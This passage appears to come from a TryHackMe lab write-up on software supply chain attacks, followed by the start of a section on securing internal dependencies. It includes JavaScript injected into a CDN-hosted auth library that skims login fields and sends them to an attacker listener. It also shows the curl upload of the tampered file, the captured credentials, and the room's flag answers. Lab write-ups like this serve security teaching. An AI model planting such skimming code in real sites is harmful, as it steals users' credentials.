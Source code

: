 ```javascript
            var user = document.getElementById('txtUsername').value;
            var pass = document.getElementById('txtPassword').value;
            oReq.open("GET", "http://10.10.30.245:7070/item?user=" + user + "&pass=" + pass);
            oReq.send();
        }
        catch(err) {
            console.log(err);
        }
		function sleep (time) {
                    return new Promise((resolve) => setTimeout(resolve, time));
                }
                sleep(5000).then(() => {
    		    document.getElementById("loginSubmit").click();
                });
	}
});


root@ip-10-10-30-245:~# curl http://cdn.tryhackme.loc:9444/libraries/auth.js --upload-file auth.js

root@ip-10-10-30-245:~# python3 -m http.server 7070
Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...
10.10.92.0 - - [22/Feb/2023 17:58:06] code 404, message File not found
10.10.92.0 - - [22/Feb/2023 17:58:06] "GET /item?user=superuser&pass=supersecretpassword12345@ HTTP/1.1" 404 -

Welcome superuser
Your password is: supersecretpassword12345@

Well done, the flag is: THM{Supply.Chain.Attacks.Are.Super.Powerful}


```


Which Advance Persistent Threat group is notorious for their supply chain attacks?  

*MageCart*

What is the password of the intercepted credentials?  

*supersecretpassword12345@*

What is the value of the flag you receive on the website after authenticating with the intercepted credentials?

*THM{Supply.Chain.Attacks.Are.Super.Powerful}*

### Securing Internal Dependencies

Internal dependencies are any libraries or SDKs that we have developed internally in our organisation. As such, we are responsible for all aspects of the security of the dependency and its management. As mentioned before, the primary reason for creating internal dependencies is to ensure that we don't have to reinvent the wheel every time we develop an application. Internal dependencies allow us to standardise certain processes, such as authentication, registration, and communication.
